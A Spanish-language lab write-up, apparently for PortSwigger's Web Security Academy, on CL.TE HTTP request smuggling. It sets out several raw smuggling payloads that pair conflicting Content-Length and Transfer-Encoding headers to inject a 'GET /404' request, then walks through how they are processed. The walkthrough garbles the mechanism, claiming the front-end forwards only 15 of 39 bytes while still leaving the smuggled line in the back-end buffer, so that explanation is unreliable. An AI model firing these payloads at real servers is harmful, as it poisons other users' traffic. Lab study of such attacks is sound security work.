






https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn#demo

## Ejemplo;

Si la solicitud de destino se ve así:

```c
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Entonces un intento de envenenamiento del socket CL.TE se vería así:

```c
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Transfer-Encoding: zchunked

17
=x&q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: bPOST /search HTTP/1.1
Host: example.com
… 
```

## LAB 

Para lograr explotar, primero debemos ir por el protocolo http/1.1 y para ello debemos ir a ajustes del burp y activarlo.



Ahora al enviar las solicitudes podemos observar que este va por HTTP/1.1



Para enviar otra solicitud en la que nosotros manipulemos, tenemos que enviar por el método post



Por lo que al enviar nuestra solicitud por el método post y el servidor devuelve un 200 OK


Ahora, teniendo encuentra de como confirmar si es vulnerable a un http request smuggling, agregaremos una segunda petición para obtener una respuesta del servidor 404.

```c
POST / HTTP/1.1
Host: 0a380090039a0e4280a1a3c500070045.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

Luego de enviar y teniendo en cuenta el Content-Length, podemos obtener una respuesta 404 



También se puede realizar de la siguiente manera.

```c
POST / HTTP/1.1
Host: 0a67009004e43daa85cb60c800a0006e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

3
abc
0

GET /404 HTTP/1.1
Test: A
```



## Procesamiento paso a paso

```c
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 39        ← FRONT-END lee esto
Transfer-Encoding: chunked ← BACK-END lee esto
```

```c
3      ← Chunk de 3 bytes
abc    ← Datos del chunk (3 bytes)
0      ← Chunk final (termina)
       ← Línea vacía después del 0
GET /404 HTTP/1.1  ← Esto queda EN EL BUFFER para el próximo request
Test: A
```

### Front-end (Content-Length):

- Ve `Content-Length: 39`
- Cuenta: `"3\r\nabc\r\n0\r\n\r\n"` = 15 bytes
- **SOLO envía 15 bytes** (piensa que faltan 24, pero no espera)
- La línea `GET /404...` **NO se envía** en este request

### Back-end (Transfer-Encoding):

- Ve `Transfer-Encoding: chunked`
- Procesa el primer chunk: `3` → lee `abc`
- Procesa el segundo chunk: `0` → **termina la lectura**
- Todo después del `0\r\n\r\n` **queda en el buffer**

Buffer del back-end contiene: `GET /404 HTTP/1.1\r\nTest: A\r\n`
Cuando llegue el próximo request real de un usuario, el back-end **prependirá este buffer**
El usuario recibirá una respuesta a `/404` en lugar de lo esperado

Esto debido a que: 
- Front-end: Ignora `Transfer-Encoding` y usa `Content-Length`
- Back-end: Ignora `Content-Length` y usa `Transfer-Encoding`
- Desincronización: El front-end envía menos datos de los que el back-end espera, dejando datos residuales

